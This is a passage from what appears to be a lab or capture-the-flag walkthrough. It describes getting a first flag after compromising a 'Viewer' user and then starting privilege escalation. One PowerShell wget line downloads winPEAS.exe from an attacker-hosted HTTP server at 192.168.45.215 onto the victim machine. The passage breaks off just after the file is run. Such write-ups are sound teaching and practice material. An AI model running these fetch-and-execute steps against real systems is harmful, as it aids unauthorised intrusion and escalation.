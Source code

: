Figure 14. First flag.

We get the first flag in the local.txt file. The Viewer user has been compromised and can be moved to the next elevation of privilege phase.

### 3 Privilege escalation

We're launching winPEAS, an automated recognition script. To do this, we set up a simple http server with Python in the executable container folder:

![image](Picture15.png)

Figure 15. Simple http server with python.

With powershell on the victim's terminal we execute the following command:
```sh
wget http://192.168.45.215:5500/winPEAS.exe -OutputFIle winpeas.exe
```

And the file is downloaded to the victim machine. We run the file:

![image](Picture16.png)
